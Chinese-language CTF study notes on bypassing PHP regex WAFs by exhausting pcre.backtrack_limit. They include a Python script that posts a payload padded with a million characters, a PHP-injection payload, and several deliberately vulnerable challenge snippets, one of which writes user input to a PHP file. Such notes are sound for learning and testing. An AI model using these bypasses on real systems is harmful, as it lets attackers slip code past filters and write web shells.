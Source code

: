 ### 正则回溯绕过

> https://xz.aliyun.com/t/10219?u_atoken=d2c429b84de1a90e423975d243d53d89&u_asig=ac11000117270958151835305e0079
>
> https://blog.csdn.net/weixin_59280309/article/details/125881818

贪婪匹配和懒惰匹配

```python
import re

s = 'python 111java687nodejs569'
#默认贪婪匹配模式，按照最多的次数进行匹配
resoult1 = re.findall('[a-z]{3,6}',s)

#在匹配次数花括号后面添加？切换匹配模式i为懒惰模式，得过且过，够了就行
resoult2 = re.findall('[a-z]{3,6}?',s)

print(resoult1)
print(resoult2)
```

```
C:\anconda\python.exe E:\py\flaskProject\basectf\正则绕过.py 
['python', 'java', 'nodejs']
['pyt', 'hon', 'jav', 'nod', 'ejs']
```



在正则匹配的回溯问题上，出于安全考虑，PHP为这个回溯进行了限制次数

```php
//在终端中
php -a
var_dump(ini_get('pcre.backtrack_limit'));
```

![image-20240926200323240](https://gitee.com/bx33661/image/raw/master/path/image-20240926200323240.png)

正则回溯绕过就是利用这个限制

利用python脚本

```python
import requests

url = ""
datas = {
    'cmd' : "题目要求"+'a'*1000000
}
res = requests.post(url=url, data=datas)
print(res.text)
```

传参数即可绕过匹配



p神的一个例子：

```php
<?php
function is_php($data){  
    return preg_match('/<\?.*[(`;?>].*/is', $data);  
}

if(!is_php($input)) {
    // fwrite($f, $input); ...
}
```

即使这个waf意味着不能出现PHP代码，所以说这里要把这个`preg_match` 这个函数绕过



**网上和做题的几个案例**

1. 

```php
<?php
$input = $_POST['input'];
echo 'use post method to uplad a file which named "file" --- ';
var_dump($input);
//查看回溯上限
echo '--- pcre.backtrack_limit is:';
var_dump(ini_get('pcre.backtrack_limit'));


if(!is_php($input)){
    $file = fopen("test.php","w");
    fwrite($file,$input);
}
//正则过滤用户输入是否为php语句
function is_php($data){
    return preg_match('/<\?.*[(`;>?].*/is',$data);
}
```

```
'file': '<?php phpinfo();//' + 'a'*1000000
```



2. 

```php
<?php
function areyouok($greeting){
    return preg_match('/Merry.*Christmas/is',$greeting); //正则匹配
}

var_dump($_POST);
$greeting = $_POST['greeting'];
var_dump($greeting);

if(!areyouok($greeting)){
    if(strpos($greeting,'Merry Christmas') !== false){   //字符查找，如果查找到返回字符的位置，没有就返回false
        echo 'welcome to nanhang. '.'flag{i_Lov3_NanHang_everyThing}';
    }else{
        echo 'Do you know .swp file?';
    }
}else{
    echo 'Do you know PHP?';
}
```



3. 

```php
<?php
	$try=$_POST['try'];
    if (preg_match('/.+?HACKER/is',$try)){
        die("你是hacker还敢自报家门呢？");
    }
    if (!stripos($try,'HACKER') === TRUE){
        die("你连自己是hacker都不承认，还想要flag呢？");
    }
```

这个就是既要你出现`HACKER` 又要你不出现这个字符，所以说我们绕过第一个，去满足第二个
